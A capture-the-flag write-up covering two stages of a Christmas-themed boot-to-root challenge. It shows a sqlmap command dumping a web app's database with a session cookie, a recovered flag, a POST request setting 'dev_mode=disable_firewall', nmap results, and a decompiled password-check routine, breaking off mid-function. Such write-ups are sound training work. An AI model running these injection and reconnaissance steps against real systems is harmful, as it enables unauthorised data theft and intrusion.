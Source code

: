 # B2R lillenisse
After registering a user and logging in, we get a whishes list.
Running sqlmap, with our own PHPSESSION cookie:
```
sqlmap -u http://10.10.180.155/index.php --forms --dump --cookie "PHPSESSID=o1tbunpcbdtlo2el4cfle467p5" --dbms=mysql
```
This reveals an entry in the table `nisser`:
```
nc3{jeg_er_ikke_til_at_finde}
```

# B2R mellemnisse
From the previous SQLi we got an entry in the table `ønskeseddel`:
`Noget magi til at f rdigg re mit kodeprojekt p  /nissetestprojekt2020` and it seems like we should check it out.
Going to the URL shows a button `Gå i DEV mode`, pressing it sends the query:
```
POST /nissetestprojekt2020/index.php HTTP/1.1
Host: 10.10.90.117
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.90.117/nissetestprojekt2020/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Connection: close
Upgrade-Insecure-Requests: 1

dev_mode=disable_firewall
```
Running an nmap scan afterwards shows:
```
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
4545/tcp open  worldscores?
8080/tcp open  http         SimpleHTTPServer 0.6 (Python 3.5.2)
```
Going to the service hosted on 8080 reveals a .elf called nisseadgang.elf
Running this exposes a service on 4545. Must be the same as the one running on our host.

Decompiling it reveals the function `ErKodeordKorrekt` with the code:
```
undefined8 ErKodeordKorrekt(char const*)(char *arg1)
{
    int64_t iVar1;
    undefined8 uVar2;
    char *s;
    int64_t var_2h;

    // ErKodeordKorrekt(char const*)
    iVar1 = strlen(arg1);
    if (iVar1 == 0x1b) {
        var_2h._1_1_ = 0;
        while (var_2h._1_1_ < 0x1b) {
            if ((code)(arg1[var_2h._1_1_] + '\x01') != g_flagEncrypted[(int32_t)((uint32_t)var_2h._1_1_ * 2)]) {
                return 0;
            }
            var_2h._1_1_ = var_2h._1_1_ + 1;
        }
```
